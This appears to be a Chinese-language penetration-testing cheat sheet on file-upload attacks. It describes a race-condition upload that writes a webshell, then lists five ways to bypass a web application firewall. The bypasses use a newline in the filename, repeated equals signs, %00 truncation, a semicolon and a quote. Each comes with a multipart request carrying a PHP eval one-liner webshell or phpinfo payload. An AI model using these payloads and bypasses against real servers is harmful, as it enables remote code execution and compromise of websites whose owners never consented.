 文件上传时，先上传、再检测、不合条件时再删掉的场景，攻击者利用多线程并发不断上传一个可以写webshell的脚本，然后马上访问这个刚上传的文件，当服务端判断并删除的时间大于客户端线程访问的时间时，客户端可以在删除之前访问到这个脚本并成功运行写入webshell



#### 文件上传WAF怎么绕过

#### 1、换行

```
Content-Disposition: form-data; name="file"; filename="1.p
hp"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

#### 2、多个等号(不止2，3个)

```
Content-Disposition: form-data; name="file"; filename=="2.php"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

```
Content-Disposition: form-data; name="file"; filename==="3.php"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

#### 3、00截断

```
Content-Disposition: form-data; name="file"; filename="4.php%00"
Content-Type: image/jpeg
<?php @eval($_POST[1])?>
-----------------------------127619278770
```

#### 4、文件名+；号

```
Content-Disposition: form-data; name="file"; filename="6;.php"
Content-Type: image/jpeg
<?php phpinfo()?>
-----------------------------127619278770
```

#### 5、文件名+‘

```
Content-Disposition: form-data; name="file"; filename="7'.php"
Content-Type: image/jpeg
<?php phpinfo()?>
-----------------------------127619278770
```
